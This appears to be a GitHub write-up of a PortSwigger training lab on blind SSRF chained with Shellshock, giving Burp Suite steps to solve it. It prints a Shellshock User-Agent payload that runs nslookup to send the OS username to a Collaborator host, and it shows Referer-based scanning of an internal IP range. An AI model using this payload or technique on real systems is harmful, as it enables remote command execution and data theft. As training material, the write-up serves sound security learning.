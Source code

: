 # Blind SSRF - with Shellshock exploitation

## 📌 Lab Details
- **Title**: Blind SSRF with Shellshock exploitation
- **Difficulty**: Expert
- **Category**: Server-side Request Forgery
- **Lab URL**: https://portswigger.net/academy/labs/launch/d453c6b39efc515eb918548d6ff29ddde86d0d0361ab5453b626309de0e3a958?referrer=%2fweb-security%2fssrf%2fblind%2flab-shellshock-exploitation

## 🔍 Summary
This lab demonstrates a **Blind SSRF** vulnerability combined with Shellshock exploitation. The application uses **analytics software** that fetches the URL specified in the `Referer` header when a product page is loaded. This behavior allows an attacker to trigger **SSRF** by injecting internal IPs into the Referer.

## 🛠 Steps to Solve
1. Intercept the request to the **product** page in Burp Suite.
2. Send the request to the **Burp Intruder**.
3. Insert the following **Shellshock** payload in the `User-Agent` value:
   ```sh
   () { :; } /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
   ```
4. Change the `Referer` header to `http://192.168.0.X:8080`. Then highlight the final octet of the IP address, click Add `§`.
5. Change the **Payload** type to numbers range from 1 to 255 with a step size of 1.
6. When the attack is finished, go to the **Collaborator** tab and click **Poll Now**.
7. You should see a **DNS** interaction that was initiated by the back-end system. Now enter the name of the **OS** user to complete the lab.

## 📖 Key Takeaways
- Blind SSRF can be exploited using headers like `Referer` if the server performs backend requests.
- Shellshock vulnerabilities can be triggered via crafted `User-Agent` headers.
- DNS-based out-of-band channels (Burp Collaborator) are useful for exfiltrating data in blind attacks.
- Brute-forcing IP ranges is effective when targeting internal networks with SSRF.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/1056880d-48b7-4fa5-927c-537952dd3d7b" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/fbe3008f-6cd3-4626-98a3-67d3e3a85bb9" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/51827f44-d8c8-4b65-a176-30a5769bc027" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/3da0f785-935c-40f7-a062-655ad378000d" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/6489063c-8d85-40c3-b431-9b6e008e54ac" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/9b8f72dd-2e80-4c2f-8ede-3db0abf80845" />
